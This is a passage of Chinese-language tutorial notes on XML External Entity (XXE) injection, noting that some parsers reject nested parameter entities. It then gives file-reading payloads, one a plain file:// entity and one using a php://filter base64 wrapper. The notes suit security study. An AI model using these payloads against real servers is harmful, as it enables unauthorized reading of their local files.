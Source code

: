 ![image-20230605210541295](../../../images/image-20230605210541295.png)

不是所有的xml解析器都能解析嵌套参数实体

![image-20230606151226408](../../../images/image-20230606151226408.png)



### 利用方式

#### 文件读取

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///文件路径" >
]>

<?xml version="1.0" encoding="utf-8"?> 
<!-- 使用php的filter过滤器读取含有xml保留字符的文件 -->
<!DOCTYPE roottag [
<!ENTITY  rabbit SYSTEM "php://filter/read=convert.base64-encode/resource=file:///e:/test.txt">]> 

<firstname>&rabbit;</firstname>
```

